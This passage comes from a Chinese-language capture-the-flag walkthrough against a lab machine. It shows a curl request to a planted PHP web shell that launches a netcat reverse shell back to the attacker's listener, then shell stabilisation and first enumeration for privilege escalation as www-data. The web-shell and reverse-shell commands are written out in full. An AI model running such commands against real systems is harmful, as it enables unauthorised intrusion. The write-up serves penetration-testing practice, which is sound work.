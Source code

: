 ```bash
┌──(kali㉿kali)-[~]
└─$ curl -k "https://192.168.205.213/hacker/supercoool.php?cmd=busybox+nc+192.168.205.206+8888+-e+/bin/bash"
```
回到`nc`监听窗口：
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888                       
listening on [any] 8888 ...
connect to [192.168.205.206] from (UNKNOWN) [192.168.205.213] 53242
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
成功拿到 `www-data` 的shell！

### 3. 权限提升 - www-data -> qaq -> root

#### 3.1 www-data -> user.txt & qaq

先来一套组合拳稳定一下shell：
```bash
script /dev/null -c bash
# Ctrl+Z 
stty raw -echo; fg
# (回车)
reset xterm  
export TERM=xterm  
export SHELL=/bin/bash  
stty rows 24 columns 80
```
尝试 `sudo -l`：
```bash
www-data@eeeeeasy:/var/www/html/hacker$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for www-data: 
sudo: a password is required
```
需要密码，此路不通。去 `/home` 目录看看有啥用户：
```bash
www-data@eeeeeasy:/var/www/html/hacker$ cd /home/
www-data@eeeeeasy:/home$ ls -al
total 16
drwxr-xr-x  4 root    root    4096 May 16 07:05 .
drwxr-xr-x 18 root    root    4096 Mar 18 20:37 ..
drwxr-xr-x  3 qaq     qaq     4096 May 16 11:04 qaq
drwxr-xr-x  2 welcome welcome 4096 May 16 11:06 welcome
```
有两个用户 `qaq` 和 `welcome`。先去 `welcome` 家看看有啥好东西。
```bash
www-data@eeeeeasy:/home$ cd welcome/
www-data@eeeeeasy:/home/welcome$ ls -al
total 32
drwxr-xr-x 2 welcome welcome 4096 May 16 11:06 .
drwxr-xr-x 4 root    root    4096 May 16 07:05 ..
-rw------- 1 welcome welcome   13 May 16 11:06 .bash_history
-rw-r--r-- 1 welcome welcome  220 Apr 11 22:27 .bash_logout
-rw-r--r-- 1 welcome welcome 3526 Apr 11 22:27 .bashrc
-rw-r--r-- 1 welcome welcome  807 Apr 11 22:27 .profile
```